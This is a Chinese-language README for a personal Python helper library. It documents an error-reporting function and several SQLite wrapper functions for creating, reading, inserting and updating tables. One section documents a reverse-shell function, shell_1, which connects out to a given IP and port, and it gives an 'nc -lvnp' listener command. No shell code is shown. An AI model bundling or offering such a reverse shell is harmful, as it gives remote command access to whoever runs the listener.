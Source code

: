# 项目简介

把一些常用的功能写成函数

---



# 函数大全

```
XiaoKang/
├──  ChangYong              # 常用的功能
│   └──  BaoCuoXingxi       # 报错的时候执行会显示报错信息
├──  sqlite                 #sqlite数据库的操作
│   ├──  db_sql             #提供sql语句，执行sql语句
│   ├──  db_cj              #提供字段和类型，创建数据表
│   ├──  db_dq              #提供sql语句和查找的值，进行查找数据
│   ├──  db_xr              #提供表、字段、值，进行写入数据
│   ├──  db_xg              #提供表、查找字段、查找值，写入字段、写入值，进行写入数据
├──  shell                  #shell反弹
│   └──  shell_1            #反弹shell到nc -lvnp 端口
└── 结束
```



# 函数讲解

所有的函数讲解怎么使用，和什么功能，你地，明白！？

## 1.ChangYong（常用）

### 1.1 BaoCuoXingxi（报错信息）

讲解功能：在代码执行的时候，如果报错可以执行这个，查看详细的报错信息

示例代码：

```
try:
    print('1'+1)
except:
    print(BaoCuoXingxi('json'))

输出：

{
    "报错类型":"<class 'TypeError'>",
    "报错信息":"can only concatenate str (not \"int\") to str",
    "报错文件":"C:\\xxx\\xxxx\\xxxxx\\test_1.py",
    "报错行数":6
}
```



## 2.sqlite（sqlite数据库）

### 2.1 db_sql（执行sql语句）

```
db_sql(sql, 数据库='主记录表')
    sql：sql的执行语句
    数据库：XXX.db文件，默认链接='主记录表'
```

返回：

```
(返回执行情况[真/假]，返回执行后的数据表)
```

---



### 2.2 db_cj（创建数据表）

```
db_cj(表名, 字段, 字段类型: dict = {}, 默认值='TEXT', 数据库='主记录表')
表名：创建的表名
字段[]：创建表中的字段
字段类型{}：指定创建字段的类型
默认值：在没有指定的情况下创建字段的默认值='TEXT'
数据库：XXX.db文件，默认链接='主记录表'
```

返回：

```
返回创建情况[真/假]
```

---



### 2.3 db_dq（读取数据）

```
db_dq(sql, value: tuple = '', 数据库='主记录表')
sql：查询数据的sql语句
value()：sql语句中的'?'值，防止被注入
数据库：XXX.db文件，默认链接='主记录表'
```

返回：

```
(返回执行情况[真/假]，返回执行后的数据表)
```

---



### 2.4 db_xr（新增写入数据）

```
db_xr(表: str, 段: list, 值: list, 数据库='主记录表')
表: 写入数据的表名
段: 写入的字段名
值: 写入的字段值
数据库: 写入的数据库名默认数据库='主记录表'
```

返回：

```
(返回执行情况[真/假]，返回自增值序号)
```

---



### 2.5 db_xg（修改已有数据）

```
db_xg(表: str, 查段: list, 查值: tuple, 写段: list, 写值: tuple, 数据库='主记录表')
表: 修改数据的表名
查段: 判断修改数据的字段名
查值: 字段名对应的值确保数据修改
写段: 需要修改的字段名
写值: 修改字段的值
数据库: 需要修改的数据名：默认值='主记录表'
```

返回：

```
(返回修改情况[真/假])
```

---



## 3.shell（shell反弹）

### 3.1 shell_1

```
用法: python shell.py <IP> <端口>

shell_1(<IP>, <端口>)

服务器开启监听
nc -lvnp 端口
```



# 安装方法

pip 安装大法

---



# 使用示例

导入函数会吧，不会自己学

---



# 依赖说明

目前没用使用其他依赖，都是用本地库

---



# 作者信息

作者：小康、米汤、鲁班

---
